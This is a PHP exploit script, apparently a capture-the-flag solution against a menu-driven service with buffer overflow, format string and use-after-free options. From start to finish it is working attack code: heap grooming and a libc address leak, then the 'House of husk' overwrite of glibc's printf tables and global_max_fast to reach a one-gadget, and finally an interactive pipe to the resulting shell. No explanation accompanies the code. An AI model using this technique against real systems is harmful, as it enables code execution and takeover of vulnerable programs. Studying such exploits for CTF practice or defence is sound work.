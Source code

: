 ```php

printf("[*] Creating process\n");
$time = microtime(true);
$t = new Socket(HOST, PORT);

$t->expectLine("");
$t->expectLine("******* INPUT YOUR ERROR ******");
$t->expectLine("1 : Buffer OverFlow");
$t->expectLine("2 : Format String Bug");
$t->expectLine("3 : Using After Free");
$t->expectLine("4 : RETURN");
$t->expectLine("*******************************");
$t->expect("YOUR CHOICE? : ");
$t->write("3\n");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

printf("[*] Allocate chunks\n");
allocate($t, 0, 0x800 - 8);
allocate($t, 1, 2 * (PRINTF_FUNCTABLE - MAIN_ARENA) - 0x10);
allocate($t, 2, 2 * (PRINTF_ARGINFO   - MAIN_ARENA) - 0x10);


printf("[*] Leak libc\n");
free($t, 0);

$leak = view($t, 0);
$addr = unpack("Q*", $leak);
$libc = $addr[1] - 0x6f3a0a818ca0 + 0x6f3a0a42d000;
printf("[+] libc: %X\n", $libc);

printf("[*] House of husk\n");
edit($t, 2, str_repeat(pack("Q", $libc + ONE_GADGET), ord("x")));
edit($t, 0, pack("Q*", 0, $libc + GLOBAL_MAX_FAST - 0x10));
allocate($t, 3, 0x800 - 8);

free($t, 1);
free($t, 2);

printf("[*] Call printf\n");
menu($t);
$t->write("5\n");

$t->expectLine("");
$t->expectLine("******* INPUT YOUR ERROR ******");
$t->expectLine("1 : Buffer OverFlow");
$t->expectLine("2 : Format String Bug");
$t->expectLine("3 : Using After Free");
$t->expectLine("4 : RETURN");
$t->expectLine("*******************************");
$t->expect("YOUR CHOICE? : ");
$t->write("1\n");

$t->expect("Input your payload : ");
$t->write(str_repeat("A", 0x108));

$t->pipe();
```
